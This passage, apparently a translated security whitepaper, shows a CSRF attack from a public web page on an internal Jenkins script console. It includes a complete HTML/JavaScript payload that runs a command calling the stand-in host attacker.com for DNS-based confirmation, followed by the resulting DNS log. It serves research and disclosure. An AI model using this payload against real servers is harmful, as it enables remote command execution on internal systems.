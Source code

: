 通常，人们会尝试安全地配置对外开放的服务器，但往往忽视内部服务器的安全性。对于本地服务而言，这种疏忽通常更为明显，基于主机的防火墙（有缺陷的）阻止访问是有理由的。因此，很有可能找到没有进行安全配置的 Jenkins 实例。考虑到这一点，假设 Jenkins 实例未配置 CSRF 保护，让我们准备一次攻击。

> 注意：我们不会发布任何 Jenkins 零日漏洞，我们利用的不安全配置是一个已知问题（在非默认配置中）\[23\]。我们本可以选择任何漏洞，但决定使用 Jenkins 作为说明性示例。

### 通过 DNS 验证命令盲注技术

简略起见，为了避免在受害者上遗留建立持久化连接的细节，让我们验证注入的命令是否实际运行。一个通常能否验证盲注情形中命令的执行情况的简单的方法是让受害者向攻击者控制的 DNS 服务器发出 DNS 请求。在我们的设置中，我们可以控制 attacker.com 域的 DNS 服务器。因此，让我们将以下命令注入 Jenkins 脚本控制台：`host abc123.attacker.com`。 通过查看 DNS 查询日志，我们可以简单地从目标网络外部的位置验证系统命令实际运行情况。

> 注意：此验证不依赖于受害者能够直接访问 attacker.com 域的 DNS 服务器。相反，会发生这种情况：当受害者运行 JavaScript 时，Jenkins 将运行系统命令，这将导致 DNS 查询被发送到受害者的内部 DNS 服务器，后者将转发它，并最终发送给 attacker.com 域的权威 DNS 服务器。（基本上，阻止这种情况的唯一方法是完全阻止 DNS 查询，这是很难实现的。）

### 执行攻击并进行验证

我们攻击 Jenkins 的恶意 HTML/JavaScrip 会是这样：

```html
<html>
<head>
<script>
request = new XMLHttpRequest();
request.open('POST', 'http://127.0.0.1:8080/script');
// Ensure that any Jenkins cookies will be added by the browser: request.withCredentials = true;
request.setRequestHeader("Content-Type","application/x-www-form-urlencoded") request.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8") 
var params =
'script=def+sout+%3D+new+StringBuffer%28%29%2C+serr+%3D+new+StringBuffer%28%2 9%0D%0Adef+proc+%3D+%27host abc123.attacker.com%27.execute%28%29%0D%0Aproc.consumeProcessOutput%28sout%2C+serr%29%0D%0Aproc.waitForOrKill%281000%29%0D%0Aprintln+%22out%3E+%24sout+err%3E+%24serr%22%0D%0A&Submit=Run'; 
request.send(params); 
request.onload = function() {
    var bytes = request.response; 
    alert('Received from service: ' + bytes);
};
</script>
<body> Testing page
</body>
</html>
```

当受害者浏览我们的恶意页面（请记住页面存在于公网而不是内网上）时，我们可以在 DNS 日志中看到 attacker.com 域：

<pre>
05-Mar-2019 13:25:01.079 queries: info: client <redacted IP address>#42960 <b>abc123.attacker.com</b>: query: abc123.attacker.com IN AAAA -E(0)DC (<redacted IP address>)
</pre>

看到这一条 DNS 记录证明我们的命令注入已经成功总受害者机器上执行！

> 注意：在实践中，真正的攻击者可能宁愿执行一些命令来获取并运行一些代码，这些代码在受害者和攻击者之间建立命令和控制（C2）通道。 然而，就本白皮书而言，我们仅限于证明命令注入。

## 简要的攻击链分析
